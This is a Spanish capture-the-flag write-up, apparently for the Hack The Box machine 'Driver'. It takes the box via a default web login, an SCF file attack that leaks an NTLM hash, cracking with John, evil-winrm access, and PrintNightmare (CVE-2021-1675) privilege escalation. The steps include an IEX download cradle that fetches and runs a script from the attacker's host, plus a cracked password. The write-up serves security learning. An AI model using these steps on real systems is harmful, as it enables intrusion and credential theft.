## Summary

Tags: #SMB #SCF #John #Hash  #NT-AuthoritySystem #Windows #WinRM #WinPEAS

- IP -> 10.10.11.106
- Ports -> TCP (445, 80, 135,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> Microsoft IIS httpd 10.0
    - 135 -> Microsoft Windows RPC
    - 445 -> SMB
    - 5985 -> WinRM

## Recon
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```
No encontramos nada relevante

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```
Acceso denegado

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
```
Acceso denegado

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```
No esta firmado, SMBv1, name:DRIVER, domain:DRIVER

* Al momento de entrar a la web. Nos pide una autenticacion, por lo que ponemos el user y passwd por defaul -> admin:admin y logramos entrar.

Wappalyzer:
* IIS 10.0 - Web Servers
* PHP 7.3.25 -Programming Languaje
* JQuery 3.2.1 - JavaScript Libraries

En la parte de Firmware podemos cargar un archivo.  Por lo que estamos frente a un **SCF (Shell Comand Files) File Attack** y lo buscamos en Google. 
* [SCF_File_Attacks](https://nored0x.github.io/red-teaming/smb-share-scf-file-attacks/)

Y haremos el siguiente:
```bash
❯ nano file.scf
	[shell]
	Command=2
	IconFile=\\10.10.14.13\smbFolder\test.ico    # Colocamos nuestra IP ,el recurso que vamos a compartir se llama 'smbFolder' y se cargara un icono aunque no exista
	[Taskbar]
	Command=ToggleDesktop
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Suponiendo que se esta haciendo una autenticacion por detras, despues de subir el archivo y darle 'Submit'. Podemos observar en nuestra consola que hay un usuario llamado **'Tony' con su hash.**

Creamos un archivo que contenga el hash para despues poder usar John y asi crackearlo
```bash
❯ nvim hash
	tony::DRIVER:aaaaaaaa....
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>                              # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve una **passwd=liltony**

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Como tambien tenemos el puerto 5985 OPEN, nos podemos conectar por evil-winrm
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Entramos a la maquina 

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ net user ❮User❯                            # Para ver los grupos locales y el RMU
```

```bash
❯ type ❮File❯                                # Nos muestra el contenido del archivo
```
Miramos el contenido de la flag user.txt en el Desktop

## Root

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```
Pero no encontramos nada que nos ayude a escalar

Para poder escalar usaremos **WinPEAS** y lo descargaremos en la maquina de atacante, para despues subirlo a la maquina victima
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe** esto en la maquina de atacante Linux

```bash
C:\Windows\Temp                              # Directorios con capacidad de escritura en Windows
```

Este comando se ejecuta en la maquina Windows
```bash
❯ upload /home/omar/Downloads/Firefox/winpeasx64.exe # Subimos el archivo WinPEAS a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

```bash
❯.\winpeasx64.exe   # Ejecutamos el binario en la maquina victima, y recolectara informacion para ver las vilnerabilidadses y poder escalar privilegios.
```

Encontrams que tiene una vulnerabilidad con Spoolsv, por lo que buscamos en Google como poder explotarla
* [Spoolsv-PrintNightmare LPE (PowerShell)](https://github.com/calebstewart/CVE-2021-1675)
Nos dirigimos dentro a CVE-2021-1675.ps1 y despues a Raw para poderlo clonar en la maquina de atacante Linux
```bash
❯ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1   # Nos descargamos el binario a nuestra maquina de atacante
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para pasar el binario
```

En la maquina Windows hacemos lo siguiente para subir el archivo
```bash
❯ IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.13/CVE-2021-1675.ps1’)  # Con este comando en la maquina victima podemos subir el script en powershell que esta cargado en nuestro servidor
```

Ahora podremos crear un usuario con los privilegios NT/AuthoritySystem
```bash
❯ Invoke-Nightmare -Drivername “Xerox” -NewUser “Omar” -NewPassword “Omar123$!” # Aqui crearemos un .dll en donde pondra nuestro usuario como administrador.
```

```bash
❯ net user                  # Verificamos los usuarios y miramos que ya tenemos asignado nuestro usuario como administrador
```
 
Despues de eso volvemos a verificar con crackmapexec y buscaremos que nos ponga un pwn3d y con eso verificaremos que nos podremos conectar con evilwinrm para que nos de una consola de Administrator
```bash
❯ crackmapexec winrm 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’ # Aqui veremos si nos pone un pwned y si es asi es porque el usuario normalmente esta en un directorio que se llama 'Remote Management User'.
```
  
```bash
❯ evil-winrm -i 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’      # Nos podemos conectar ya al servicio de administracion remota de Windows como el usuario Tony
```
  
Una vez adentro buscamos la flag root.txt